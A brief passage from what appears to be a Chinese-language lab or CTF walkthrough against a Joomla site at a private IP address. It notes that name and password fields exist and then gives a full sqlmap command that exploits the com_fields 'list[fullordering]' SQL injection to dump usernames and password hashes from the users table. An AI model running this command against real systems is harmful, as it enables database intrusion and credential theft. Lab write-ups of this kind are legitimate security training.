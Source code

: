 ![image-20250312232603926](./assets/image-20250312232603926.png)

存在name和password字段

 

获取name和password数据信息

```
sqlmap -u "http://192.168.6.26/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" -C "name,password" --dump -p list[fullordering]
```

![image-20250312232613110](./assets/image-20250312232613110.png)
